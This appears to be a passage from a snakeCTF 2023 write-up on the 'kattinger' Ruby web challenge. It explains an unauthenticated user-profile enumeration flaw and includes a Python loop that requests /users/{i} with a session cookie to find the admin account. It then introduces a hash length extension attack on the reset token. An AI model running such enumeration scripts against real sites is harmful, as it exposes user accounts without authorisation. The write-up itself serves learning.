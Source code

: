 So, how does the the application know when we are admin? Let's have a look at `session_helper.rb`

```ruby
    def is_admin?
        return current_user().username == ENV['ADMIN_USER']
    end
```

Ok, this code looks strange. The check for admin privileges isn't performed via the database. So wehere does `ADMIN_USER` come from? It's an environment variable, so we can see this from `compose.yml`

```yaml
    environment:
      FLAG: "REDACTED"
      HOST: "kattinger-app"
      ADMIN_USER: "REDACTED"
      ADMIN_PASSWORD: "REDACTEDREDACTEDREDACTED"
      SECRET: "REDACTEDREDACTEDREDACTEDREDACTED"
```

No luck, I also checked the files `development.sqlite3` and `test.sqlite3`, but the username and the password were redacted there  :(

##### First vulnerability: Unauthorized user enumeration
Remember the Figure 7? As we can see from the code, the `show` function in `users_controller.rb` didn't have the required `current_user?` check. So we can enumerate all registered users.

I guessed that discovering the `ADMIN_USER` value was part of the challenge, so I first tried route `users/0` and route `users/1` by hand, but I didn't find the admin user, so I wrote a simple script to exploit this behaviour.

```python
import requests

cookies = {
    '_kattinger_session': 'REDACTED xd',
}

for i in range(2, 1000):
    response = requests.get(f'https://kattinger.snakectf.org/users/{i}', cookies=cookies)

    if response.text.split('admin">')[1].split('</p>')[0].strip() == 'true':
        print("done", i)
        break
```

This script outputs the value 76, so if we visit the route `/users/76` we can see that the username is `4dm1n_54`. Unfortunately, the password and secret token are redacted. (Figure 11)

{{< image src="/img/snakeCTF2023/admin_profile.png" >}}
**Figure 11**: Admin profile

Once we have the admin username, we can request the token from the reset page (Figure 8), but how can we exploit this?

##### Second vulnerability: Reset token vulnerable to hash length attack
The second vulnerability is tricky but easy to exploit. The vulnerability is contained in the `reset_submit` function into the `users_controller.rb` file.
